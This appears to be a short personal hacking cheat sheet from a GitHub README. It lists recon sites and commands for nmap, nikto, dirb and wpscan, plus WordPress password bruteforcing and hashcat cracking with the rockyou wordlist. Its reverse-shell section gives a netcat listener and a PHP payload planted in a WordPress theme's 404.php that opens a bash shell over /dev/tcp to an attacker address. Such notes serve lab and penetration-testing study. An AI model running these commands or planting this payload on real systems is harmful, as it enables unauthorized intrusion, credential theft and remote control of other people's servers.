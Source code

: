 ﻿# Hacking-Tool
https://www.whois.com/whois
https://wigle.net/
https://gchq.github.io/CyberChef/

exiftool <bild.png>

## Scan
### Nmap
scans ports on a server
    nmap -A -p 22,80,443 <ip>
    nmap --script vuln -p 22,80,443 <ip>
### nikto
scans /xyz
    nikto -h http://<ip>/ -nossl
### Directory scan
    dirb http://<ip>
### Wordpress scan
scans Wordpress sites
    wpscan --url http://<ip>/ -et -ep -eu 
    wpscan --url http://<ip>/ --wp-content-dir -et -ep -eu
    Bruteforcing wordpress:
    wpscan --url http://<ip>/ --wp-content-dir -eu -P <file>.dic

## asdf
  ### hashcat
  Cracks hash
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt //
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt --show

## reverse shell
### listener
    nc -lvp <port>
### php // wordpress
    Go to appearance -> editor -> Put the code in 404.php
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
    ?>


## Else
### Files
#### download
    wget <url>
#### Sort file and remove duplication
    sort <file> | uniq > sort_<file>
    wc -l sort_<file>
